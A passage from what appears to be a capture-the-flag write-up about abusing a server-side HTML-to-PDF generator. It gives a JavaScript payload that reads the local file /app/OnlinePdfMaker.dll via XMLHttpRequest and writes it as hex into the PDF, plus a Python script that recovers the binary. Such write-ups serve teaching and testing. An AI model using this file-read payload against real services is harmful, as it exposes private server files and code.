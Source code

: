 We get the following output:

![](https://www.opencyber.com/wp-content/uploads/2021/10/testpdfoutput8-1024x164.png)

The **OnlinePdfMarker.dll** file on ./ got our attention. We try to
retrieve it using the same method:

1.  JavaScript getting the /app/OnlinePdfMaker.dll and URI encoding it
2.  Get the PDF file and get the data from it
3.  Observe that it is kind of broken as the file command give us the
    output : **OnlinePdfMaker.dll: MS-DOS executable** and not an
    assembly file.

We seem to have some issues with the content of the .dll file. We need
to write it in a binary mode first.

The python script is now the following:

``` {.wp-block-syntaxhighlighter-code .code}
#!/usr/bin/env python3

from tika import parser # pip install tika
from binascii import unhexlify
from urllib.parse import unquote

raw = parser.from_file('Test.pdf')
content = ''.join(raw['content'].strip('\n').split('Created')[0].split('\n')[:-2])

with open("OnlinePdfMaker.dll", 'wb') as fichier:
    fichier.write(unhexlify(content))
    ficher.close()
```

We get an error that: **binascii.Error: Non-hexadecimal digit found**
meaning that:

-   We need to rethink the JavaScript payload
-   Search a method to get the .dll (in a binary mode)
-   Get a working function to convert the data into hexadecimal instead
    of Encode URI it

It leads to the following script:

``` {.wp-block-syntaxhighlighter-code .code}
<script>

//Function buf2hex convert the buffer into hexadecimal
function buf2hex(buffer) {
        var byteArray = new Uint8Array(buffer);
        var hexParts = [];
        for(var i = 0; i < byteArray.byteLength; i++) {
                var hex = byteArray[i].toString(16);
                var paddedHex = ('00' + hex).slice(-2);
                hexParts.push(paddedHex);
        }
        return hexParts.join('');
};

var oReq = new XMLHttpRequest();
oReq.onload = function(oEvent) {
        var buffer = oReq.response;
        document.write(buf2hex(buffer));
};

oReq.open("GET", "file:///app/OnlinePdfMaker.dll", true);
oReq.responseType = "arraybuffer"; //Important in order to get binary data
oReq.send();
</script>
```